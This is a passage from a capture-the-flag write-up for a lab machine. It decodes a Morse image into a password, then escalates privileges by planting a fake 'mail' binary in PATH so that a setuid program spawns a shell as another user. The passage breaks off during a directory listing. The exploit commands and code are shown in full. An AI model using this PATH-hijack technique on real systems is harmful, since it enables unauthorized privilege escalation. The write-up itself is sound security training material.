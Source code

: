 ```
![alt morse](morse.png)

From this is is pretty easy to transcribe the Morse:

>```
>.-.  .. -.-. .... .- .-. -.. .-- .-. .. -. .... - .---- ----. ....- ...-- ..-. .- .-. ..-. .. ... .-
>```

Decodes to:

>```
>RICHARDWRINHT1943FARFISA
>```

Eh, close enough.

### Richard

We can now su to RichardWright with password 1943farfisa.

There is again a suid binary:

>```
>3281   16 -rwsr-s---    1 DavidGilmour RichardWright     7524 Oct 25 07:58 /usr/local/bin/shineon
>```

This binary can run a few programs as user DavidGilmour, it uses system("program") to do this. Fortunately for us it launches the "mail" program in an unsafe way (system("mail")), meaning that we can change the PATH environment variable to execute an arbitrary binary as DavidGilmour.

>```
>$ vi a.c           
>$ gcc -o mail a.c  
>$ export PATH=/tmp:$PATH
>$ cat a.c                                                                                                                                  
>int main(void){
>        setresuid(1004, 1004, 1004);
>        system("/bin/ksh");
>}       
>$ /usr/local/bin/shineon                                                                                                                   
>Menu
>
>1. Calendar
>2. Who
>3. Check Internet
>4. Check Mail
>5. Exit
>4
>Keep Talking- The Division Bell
>$ id
>uid=1004(DavidGilmour) gid=1003(RichardWright) groups=1003(RichardWright)
>```

### David

Again we find some hints in the home directory.

>```
>$ ls -l /home/DavidGilmour 
>total 368
```